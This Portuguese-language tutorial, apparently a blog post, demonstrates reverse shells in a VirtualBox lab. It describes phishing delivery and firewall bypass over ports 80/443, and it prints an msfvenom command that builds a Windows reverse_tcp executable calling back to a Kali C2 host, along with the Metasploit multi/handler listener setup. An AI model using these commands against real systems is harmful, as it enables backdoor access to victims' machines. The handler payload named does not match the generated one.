 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (Command and Control). O nomes mais comum desse tipo de ataque é backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração na criação do payload. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /root/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali vai receber a conexão da vítima e para que essa comunicação aconteça, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/meterpreter/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows fica disponível.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)













